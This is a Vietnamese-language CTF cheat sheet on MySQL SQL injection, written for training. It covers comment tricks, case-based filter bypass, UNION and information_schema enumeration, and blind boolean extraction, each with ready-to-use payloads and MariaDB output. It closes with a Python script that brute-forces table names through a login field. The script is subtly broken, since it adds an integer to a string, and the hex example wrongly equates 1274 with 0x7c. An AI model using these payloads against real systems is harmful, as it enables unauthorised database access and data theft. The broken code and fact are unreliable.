

# Mysql

- Lưu ý 1 số payload mình sẽ giữ nguyên định dạng *query* gốc để các bạn hiểu rõ vấn đề, còn trong ctf thực tế bạn phải đoán được *query* của đề để cắt ghép sử dụng payload 
- Không phải hàm nào mình cũng giải thích chức năng nên các bạn chịu khó *reseach* để tìm hiểu

---

### 1. Mysql comment

- `# comment`
- `-- comment`
  - Tuy nhiên *comment* này có 1 chút đặc thù. Gỉa sử nếu comment như thế này sẽ sinh ra lỗi
  - `--comment`
  - Yêu cầu *comment* phải cách `--` ít nhất 1 khoảng trắng
  - Chi tiết này tuy nhỏ nhưng đôi khi cũng xảy ra sai xót
- `/* comment */`
  - *comment* này khác với những *comment* trên là chúng cho phép ta *comment* trên nhiều dòng
- `/*! MySQL-specific code */`
  - *code* này có thể *compile* được bởi *Mysql* nhưng với *server* khác thì nó được coi là 1 *comment*
  - Ngoài ra nó còn nhiều thứ đặc biệt khác, có thể tham khảo *doc* này của *mysql* để biết thêm: [Link](https://dev.mysql.com/doc/refman/8.0/en/comments.html)
- Các *comment* rất hữu dụng trong các trường hợp khi ta không *bypass* được 1 số *parameter* chẳng hạn
- Còn vô số chức năng khác mà bạn không ngờ tới với *comment*

---

### 2. Mysql union based

- Ta sử dụng `ORDER BY`  để xác định số cột của table

  ```
  ORDER BY 1
  ORDER BY 2
  ORDER BY 3
  ...
  ORDER BY n
  ```

- VD đơn giản, table của ta chỉ có 2 cột, nếu ta thử với *ORDER BY 3* thì nó sẽ báo lỗi

  ```mysql
  MariaDB [xssuser]> select * from menu;
  +----+-----------+
  | ID | NAME_MENU |
  +----+-----------+
  |  1 | Menu 2    |
  |  2 | Menu 4    |
  |  3 | Menu 5    |
  |  4 | Menu 6    |
  |  5 | Menu 7    |
  |  6 | Menu 8    |
  |  7 | asdf      |
  |  8 | kaito     |
  +----+-----------+
  8 rows in set (0.00 sec)
  ```

  

---

### 3. Filter OR, AND...

- Đôi khi người ra đề *filter* đi các từ khóa như *or, and, select, order...* thì ta có thể sử dụng các từ khóa đó theo kiểu *Or, AnD, sEleCt,..* để *bypass* qua nếu *filter* lỏng lẻo

  ```mysql
  MariaDB [xssuser]> sEleCt * fRoM menu WhEre Id = 1;
  +----+-----------+
  | ID | NAME_MENU |
  +----+-----------+
  |  1 | Menu 2    |
  +----+-----------+
  1 row in set (0.00 sec)
  ```

  

---

### 4. UNION

- Từ khóa `UNION` cho phép nối kết quả của 2 hoặc nhiều câu *query* lại với nhau thành 1 kết quả duy nhất. Hay nói đơn giản hơn thì `UNION` nối các *query SELECT* lại với nhau để tạo thành 1 kết quả duy nhất

- Tuy nhiên mặc định của *UNION* thì nó loại bỏ đi các kết quả bị trùng, đôi khi ta cần sử dụng `UNION ALL` để giữ lại các kết quả trùng

  ```mysql
  MariaDB [xssuser]> select * from menu where id = 1;
  +----+-----------+
  | ID | NAME_MENU |
  +----+-----------+
  |  1 | Menu 2    |
  +----+-----------+
  1 row in set (0.00 sec)
  
  MariaDB [xssuser]> select * from menu where id = 1 union select * from menu where id = 2;
  +----+-----------+
  | ID | NAME_MENU |
  +----+-----------+
  |  1 | Menu 2    |
  |  2 | Menu 4    |
  +----+-----------+
  2 rows in set (0.00 sec)
  
  ```

  

---

### 5. Convert to hex

- Nếu như người ra đề *filter* các bộ số quan trọng, ta có thể sử dụng mã hex để thay thế chúng

- VD *1274* bị *filter* thì ta sử dựng *0x7c* thay cho nó

  

---

### 6. information_schema

- Nếu không biết về `information_schema` thì quả thật quá đáng tiêc, bởi vì nó cung cấp cho ta khá nhiều thông tin hữu ích

- Ngoài các *database* do người ra đề tạo, thì mặc định luôn có sự tồn tại của *database information_schema* trong *mysql*

- Đặc thù của *database* này chỉ sử dụng được câu lệnh *SELECT*. Vì thực chất chúng chứa các *table read-only*

- Chúng ta có thể sử dụng *payload* này để lấy ra *table_name* của *database*:

  - Payload:

    ```mysql
    SELECT table_name FROM information_schema.tables
    ```

    ```mysql
    | setup_objects                                      |
    | setup_timers                                       |
    | socket_instances                                   |
    | socket_summary_by_event_name                       |
    | socket_summary_by_instance                         |
    | table_io_waits_summary_by_index_usage              |
    | table_io_waits_summary_by_table                    |
    | table_lock_waits_summary_by_table                  |
    | threads                                            |
    | users                                              |
    | menu                                               |
    | user                                               |
    +----------------------------------------------------+
    162 rows in set (0.01 sec)
    ```

  - Tuy nhiên phương pháp này trích xuất ra rất nhiều các *table* dư thừa

- Sử dụng *payload* này để chỉ xuất ra các *table* mà người ra đề tạo

  - Payload:

    ```mysql
    SELECT table_name FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT table_name FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema');
    +------------+
    | table_name |
    +------------+
    | menu       |
    | user       |
    +------------+
    2 rows in set (0.01 sec)
    ```

    

- Ngoài trích xuất các *table_name*, ta còn có thể trích xuất các *column_name*

  - Payload: 

    ```mysql
    SELECT column_name FROM information_schema.columns WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT column_name FROM information_schema.columns WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema');
    +-------------+
    | column_name |
    +-------------+
    | ID          |
    | NAME_MENU   |
    | ID          |
    | USER        |
    | PASS        |
    | USERID      |
    | LEVEL       |
    +-------------+
    7 rows in set (0.01 sec)
    ```

    

- Ngoài sử dụng `SELECT DATABASE()` để lấy ra tên của *database* hiện tại đang sử dụng, ta còn có thể truy xuất ra toàn bộ các *database* được người ra đề tạo ra

  - Payload:

    ```mysql
    SELECT schema_name FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT schema_name FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema');
    +--------------+
    | schema_name  |
    +--------------+
    | sqlinjection |
    | xssuser      |
    +--------------+
    2 rows in set (0.00 sec)
    
    ```

    

- Nhưng những payload trên đa số là xuất ra nhiều chuỗi (nhiều dòng), ta nên kết hợp *group_concat* để để nối chúng thành 1 chuỗi để xuất ra thành 1 dòng

- VD:

  - Payload: 

    ```mysql
    SELECT group_concat(schema_name) FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT group_concat(schema_name) FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema');
    +---------------------------+
    | group_concat(schema_name) |
    +---------------------------+
    | sqlinjection,xssuser      |
    +---------------------------+
    1 row in set (0.00 sec)
    ```

    

- Ngoài trích xuất ra số lượng *column* bằng

  - Payload: 

    ```mysql
    SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'xssuser' AND table_name = 'user'
    ```

    ```mysql
    MariaDB [xssuser]> SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'xssuser' AND table_name = 'user';
    +----------+
    | COUNT(*) |
    +----------+
    |        5 |
    +----------+
    1 row in set (0.01 sec)
    ```

  - Với *user* là *table* và *xssuser* là *database* đã có bằng *information_schema*

- Ta còn có thể truy xuất số lượng *column* bằng

  - Payload: 

    ```mysql
    SELECT * FROM user WHERE ID = 1 and(SELECT * from user)=(1)
    ```

    ```mysql
    MariaDB [xssuser]> SELECT * FROM user WHERE ID = 1 and(SELECT * from user)=(1);
    ERROR 1241 (21000): Operand should contain 5 column(s)
    ```

    

- Truy xuất *column name* ta dùng

  - Payload: 

    ```mysql
    SELECT `COLUMN_NAME`  FROM `INFORMATION_SCHEMA`.`COLUMNS`  WHERE `TABLE_SCHEMA`='xssuser' AND `TABLE_NAME`='user'
    ```

    ```mysql
    MariaDB [xssuser]> SELECT `COLUMN_NAME`  FROM `INFORMATION_SCHEMA`.`COLUMNS`  WHERE `TABLE_SCHEMA`='xssuser' AND `TABLE_NAME`='user';
    +-------------+
    | COLUMN_NAME |
    +-------------+
    | ID          |
    | USER        |
    | PASS        |
    | USERID      |
    | LEVEL       |
    +-------------+
    5 rows in set (0.00 sec)
    ```

    

- *Dump data* của *column* với

  - Payload

    ```mysql
    SELECT `2` FROM (select 1,2 UNION SELECT * FROM menu)xssuser
    ```

    ```mysql
    MariaDB [xssuser]> SELECT `2` FROM (select 1,2 UNION SELECT * FROM menu)xssuser;
    +--------+
    | 2      |
    +--------+
    | 2      |
    | Menu 2 |
    | Menu 4 |
    | Menu 5 |
    | Menu 6 |
    | Menu 7 |
    | Menu 8 |
    | asdf   |
    | kaito  |
    +--------+
    9 rows in set (0.01 sec)
    ```

  - Với *menu* là *table* và *xssuser* là *database*

### 7. Mysql Blind

- Mysql Blind được áp dụng khi *server* không trả về kết quả chính xác cho ta, nhưng vẫn trả về 1 giá trị nào đó

- Sau đây mình sẽ sử dụng 1 vài hàm để lấy ra *version* của *mysql* dựa vào kỹ thuật *true or false*

- Nếu cả 2 mệnh đề đều đúng thì sẽ in chạy *query* để in ra kết quả, 1 mệnh đề đúng 1 mệnh đề sai sẽ không in ra gì cả

- Đa số những hàm này đều lấy ra ký tự trong *database* để so sánh với ký tự mà ta đưa ra

- *Version mysql* của mình là 

  ```mysql
  MariaDB [xssuser]> select version();
  +----------------------------------+
  | version()                        |
  +----------------------------------+
  | 10.1.41-MariaDB-0ubuntu0.18.04.1 |
  +----------------------------------+
  1 row in set (0.00 sec)
  ```

- Sử dụng hàm *SUBSTRING*

  - Payload: 

    ```mysql
    SELECT * FROM user WHERE id = 1 and SUBSTRING(version(),1,1)=1
    ```

    ```mysql
    MariaDB [xssuser]> select * from user where id = 1 and substring(version(),1,1)=2;
    Empty set (0.00 sec)
    ```

  - Số đầu tiên của *version mysql* của mình là 1, nên nếu bằng 2 thì sẽ sai nên không in ra kết quả

    ```mysql
    MariaDB [xssuser]> select * from user where id = 1 and substring(version(),1,1)=1;
    +----+---------+---------+---------+-------+
    | ID | USER    | PASS    | USERID  | LEVEL |
    +----+---------+---------+---------+-------+
    |  1 | admin04 | admin07 | dGhpcyB |     3 |
    +----+---------+---------+---------+-------+
    1 row in set (0.00 sec)
    ```

  - Khi cả 2 mệnh đề đều đúng thì sẽ xuất ra kết quả

  - Các kết quả của các hàm khác là như nhau nên mình chỉ đưa ra payload

- Sử dụng hàm *RIGHT* và *LEFT*

  - Payload:

    ```mysql
    SELECT * FROM user WHERE id = 1 AND RIGHT(LEFT(version(),1),1)=1
    ```

- Sử dụng bộ đôi *ASCII* và *SUBSTR* kết hợp *LOWER*

  - Payload:

    ```mysql
    SELECT * FROM user WHERE id = 1 AND ASCII(LOWER(SUBSTR(Version(),1,1)))=49
    ```

- Sử dụng *MID*

  - Payload;

    ```mysql
    SELECT * FROM user WHERE id = 1 AND (SELECT MID(version(),1,1)=1)
    ```

- Sử dụng *SUBSTR* để lấy ra *table name*

  - Payload:

    ```mysql
    (SELECT SUBSTRING(table_name,1,1) = 'm' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1)
    ```

    ```mysql
    MariaDB [xssuser]> (SELECT SUBSTRING(table_name,1,1) = 'm' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1);
    +---------------------------------+
    | SUBSTRING(table_name,1,1) = 'm' |
    +---------------------------------+
    |                               1 |
    +---------------------------------+
    1 row in set (0.00 sec)
    ```

  - *table name* của mình là *menu* nên kết quả sẽ trả về kết quả là 1 (true), nếu sai sẽ trả về 0 (false)

- Sử dụng 1 tool nào đó sẽ lấy ra được toàn bộ tên của *table name* khi ta cộng dồn từ từ các kết quả đúng lại với nhau

- 1 tool nho nhỏ của mình viết bằng python

  ```python
  import requests
  from string import *
  import re
  
  url = 'https://abc.xyz'
  
  char = digits + ascii_lowercase + ascii_uppercase
  
  listpass = ''
  
  no = []
  
  while True:
  	flag = 0
  	for x in char:
  		data = {
  			'username' : "admin' AND (SELECT SUBSTRING(table_name,"+len(listpass)+1+",1) = '"+x+"' FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema') LIMIT 1)"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('No admin', response.text)
  
  		if fin != no:
  			print('Test with ' + listpass + x + ' ----> sucess' )
  			listpass += x
  			break
  			
  		else:
  			print('Test with ' + listpass + x + ' ----> fail' )
  			flag += 1
  			
  	if flag == 62:
  		print('\n\nSucess with table name: ', listpass)
  		break
  
  ```

- Đây là code mẫu của mình, tùy vào trường hợp mà chỉnh sửa các thông số. Mình sẽ không giải thích về tool này. Các bạn chịu khó *research* để tìm hiểu

- To Be Continue ...

  
